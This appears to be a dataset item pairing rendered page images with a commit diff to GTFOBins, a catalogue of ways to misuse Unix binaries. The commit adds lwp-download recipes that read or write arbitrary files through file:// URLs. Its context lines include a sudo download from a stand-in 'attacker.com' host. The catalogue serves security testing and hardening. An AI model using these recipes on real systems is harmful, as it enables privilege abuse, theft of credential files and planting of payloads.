

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/lwp-download.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add lwp-download file-read/write

```diff
--- a/_gtfobins/lwp-download.md
+++ b/_gtfobins/lwp-download.md
@@ -16,4 +16,17 @@ functions:
         URL=http://attacker.com/file_to_get
         LFILE=file_to_save
         sudo lwp-download $URL $LFILE
+  file-read:
+    - description: The file path must be absolute.
+      code: |
+        LFILE=file_to_read
+        TF=$(mktemp)
+        lwp-download "file://$LFILE" $TF
+        cat $TF
+  file-write:
+    - code: |
+        LFILE=file_to_write
+        TF=$(mktemp)
+        echo DATA >$TF
+        lwp-download file://$TF $LFILE
 ---
```
